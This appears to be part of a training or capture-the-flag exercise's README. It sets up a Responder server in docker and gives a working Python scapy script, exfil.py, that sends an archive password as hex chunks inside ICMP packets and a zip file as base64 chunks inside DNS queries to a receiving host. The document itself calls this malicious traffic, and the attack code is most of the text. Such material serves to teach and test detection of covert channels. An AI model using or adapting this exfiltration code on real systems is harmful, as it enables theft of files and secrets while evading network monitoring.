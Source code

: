 ```bash
$ sudo docker build . -t responder && sudo docker run --rm --name responder -t responder
```

2. Client side

For the client, basically your host, you can use the following python script (exfil.py) to generate the malicious traffic:

```python
#!/usr/bin/python3
#-*- coding: utf-8 -*-

from scapy.all import *
import binascii
import base64

destIP = "172.17.0.2"

'''
Exfiltration with ICMP

@param mesg: Input to send through ICMP - C{bytes}
@return: No return, sends packets.
'''
def ping_exf(mesg):
    hex_mesg = str(binascii.hexlify(bytes(mesg, 'utf8')))[2:-1] # Removing of b' at start and ' at end
    n = 16 # Size of block
    list_split = [hex_mesg[i:i+n] for i in range(0, len(hex_mesg), n)] # Split string into list
    for i in range(0,len(list_split)):
        print(list_split[i])
        send(IP(dst=destIP)/ICMP()/list_split[i])

'''
Exfiltration with DNS A requests. Send an archive / file or wathever
splitted into 20 char / packet.
Don't forget to put a responder server on the target. 
Responder will up a DNS server that accept all requests, even wrong one.

@param mesg: Input to send via DNS A requests - C{bytes}
@return: No return, sends packets.
'''
def dns_exf(mesg):
    mesg = base64.b64encode(mesg)
    n = 20
    list_split = [mesg[i:i+n] for i in range(0, len(mesg), n)]
    
    for i in range(0, len(list_split)):
        print(str(list_split[i])[2:-1])
        part = ("%s.makictf.wtf" % str(list_split[i])[2:-1])
        sr1(IP(dst=destIP)/UDP(dport=53)/DNS(rd=1,qd=DNSQR(qname=part)),verbose=0)

if __name__ == "__main__":
    key_archive = "The key of the encrypted archive is: CyberMoocMooc"
    
    f = open('passwd.zip','rb')
    enc_archive = f.read()
    f.close()
   
    ping_exf(key_archive)
    dns_exf(enc_archive)
```
